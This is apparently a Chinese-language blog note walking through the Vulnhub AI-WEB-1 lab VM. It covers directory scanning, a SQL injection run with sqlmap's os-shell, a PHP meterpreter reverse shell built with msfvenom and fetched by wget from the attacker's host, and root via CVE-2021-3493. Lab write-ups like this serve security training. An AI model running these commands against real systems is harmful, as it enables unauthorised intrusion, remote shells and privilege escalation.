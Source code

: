 ```yaml
---
title: Vulnhub靶场笔记-AI-WEB1
date: 2023-11-12 18:53:00 +0800
img_path: /
categories: [肾透, Vulnhub靶场]
tags: [肾透, Vulnhub靶场]     # TAG names should always be lowercase
---
```



# AI-WEB-1

## 一、环境配置

更改网络适配器为NAT模式

![image-20231112181712223](assets/image-20231112181712223.png)

## 二、主机探测

在物理机中查看VMnet8网卡

![image-20231108145349160](assets/image-20231108145349160.png)

使用`fscan`探测AI-WEB-2靶机ip地址为：192.168.157.137

![image-20231112182409300](assets/image-20231112182409300.png)

![image-20231112182449516](assets/image-20231112182449516.png)

## 三、WEB信息收集

```bash
dirsearch -u http://192.168.157.137/
```

![image-20231112182621097](assets/image-20231112182621097.png)

![image-20231112182649777](assets/image-20231112182649777.png)

```sh
dirsearch -u http://192.168.157.137/m3diNf0/
dirsearch -u http://192.168.157.137/se3reTdir777/uploads/
dirsearch -u http://192.168.157.137/se3reTdir777/
```

![image-20231112183629364](assets/image-20231112183629364.png)

`http://192.168.157.137/m3diNf0/info.php`

![image-20231112183716479](assets/image-20231112183716479.png)

![image-20231112183149744](assets/image-20231112183149744.png)

![image-20231112183243042](assets/image-20231112183243042.png)

`http://192.168.157.137/se3reTdir777/index.php`

![image-20231112183502398](assets/image-20231112183502398.png)

## 四、SQL注入

存在sql注入漏洞

![image-20231112183839509](assets/image-20231112183839509.png)

`sqlmap`一把梭，注意到是`post`传参抓包获取POST的`data`数据 ：`uid=1+%E2%80%98+or+1%3D1%23&Operation=Submit`

![image-20231112184032245](assets/image-20231112184032245.png)

```sh
sqlmap -u "http://192.168.157.137/se3reTdir777/" --data="uid=1'or1=1#&Operation=Submit"  --os-shell
```

在`info.php`中得知`web`目录：`/home/www/html/web1x443290o2sdf92213 `

![image-20231112184457427](assets/image-20231112184457427.png)

经测试`/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/`能写入`webshell`

![image-20231112184750316](assets/image-20231112184750316.png)

## 五、上线MSF

生成`php`木马

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.157.138 LPORT=4444 R > shell.php
```

`msf`监听

```sh
use exploit/multi/handler
set LHOST 192.168.157.138
set payload php/meterpreter/reverse_tcp
```

利用`os-shell`远程下载生成的`php`木马

启动HTTP服务：`python -m http.server 8888`

远程下载：`wget http://192.168.157.138:8888/shell.php`

![image-20231112190112009](assets/image-20231112190112009.png)

访问`shell.php`

![image-20231112191324533](assets/image-20231112191324533.png)

## 六、提权拿Flag

查看主机信息

![image-20231112191517383](assets/image-20231112191517383.png)

上线后按`CTRL+Z`选择`y`保存`session`

![image-20231112191735649](assets/image-20231112191735649.png)

使用`cve-2021-3493`提权

```sh
search cve-2021-3493
use 0
set SESSION 0
run
```

![image-20231112192011460](assets/image-20231112192011460.png)

查看Flag

![image-20231112192105695](assets/image-20231112192105695.png)
